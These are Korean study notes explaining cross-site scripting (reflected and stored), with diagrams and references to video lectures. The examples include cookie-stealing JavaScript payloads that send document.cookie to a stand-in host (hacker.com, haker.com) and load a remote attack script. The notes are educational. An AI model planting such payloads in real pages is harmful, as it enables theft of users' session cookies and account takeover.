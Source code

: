 ```yaml
---
noteId: "34c33760ba1211edbf4f091acf1f0ea3"
tags: []

---
```


# Croxx Site Scripting (XSS)

JavaScript의 취약성을 이용한 공격
클라이언트(사용자) 쪽의 웹 브라우저 특성을 이용한 공격하는 기법입니다. 

웹 브라우저는 웹페이지에 있는 스크립트의 정확한 출처를 알 수 없기 때문에 그대로 실행할 수 밖에 없습니다. 이런 취약점을 이용한 공격이 XSS 입니다.

현대의 모던 브라우저는 대부분 잘 알려진 공격에 대한 대응책을 지원하고 있습니다. 하지만 기본적인 공격 원리를 이해하는 것도 중요합니다.

- Javascript 소개
  - 웹 페이지의 동적 기능 구현을 담당
  - 작성 예시
  ```{javascript}
  <!-- 사용자 컴퓨터에 저장된 쿠키 정보 취득 -->
  <script>
    alert('공격이 시작됩니다^^')
    document.loaction = 'http://hacker.com/cookie?' + document.cookie
  <script>
  
  <!-- 웹 브라우저를 실행하면 자동으로 악성 코드를 실행 -->
  <script src='http://hacker.com/attack.js?'><script>
  ```
- 

## Reflcted XSS
<img src='../imgs/XSS_reflected_scenario_06.png' width='500px'>


이미지 출처: [[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?](https://youtu.be/jvS45jdz1ao)

[Reflected XSS](imgs/XSS_reflected_scenario_06.png)


## Stored XSS

서버의 게시판과 같이 글을 남길 수 있는 영역에 JavaScript를 남겨 놓으면 (저장하면, 즉 store 하면), 아무것도 모르는 사용자가 방문했을 경우 JavaScript가 자동으로 실행되도록 하는 공격입니다.

예를 들면 게시판에 다음과 같은 JavaScript를 남겨 놓을 수 있습니다.

```{javascript}
<script>
    let xmlHttp = new XMLHttpRequest();
    const url = "http://haker.com?victimCookie=" + document.cookie;
    xmlHttp.open('GET', url);
    xmlHttp.send();
</script>
```

실행 순서는 다음과 같습니다.

<img src='../imgs/XSS_stored_scenario_04.png' width='500px'>

위 그림에서 4번까지 공격이 진행되면 이후 공격은 Reflected XSS 공격과 마찬가지로 해당 쿠키 정보를 이용하여 악의적 행위를 진행합니다.

이미지 출처: [[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?](https://youtu.be/jvS45jdz1ao)


# References
|Title|Author|Source|Link|
|:--|:--|:--|:--|
|[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?|버그잡는 해커|Youtube|[link](https://youtu.be/jvS45jdz1ao)|
|크로스 사이트 스크립팅, XSS|코드없는 프로그래밍|Youtube|[link](https://youtu.be/LfI6TAchgT4)|
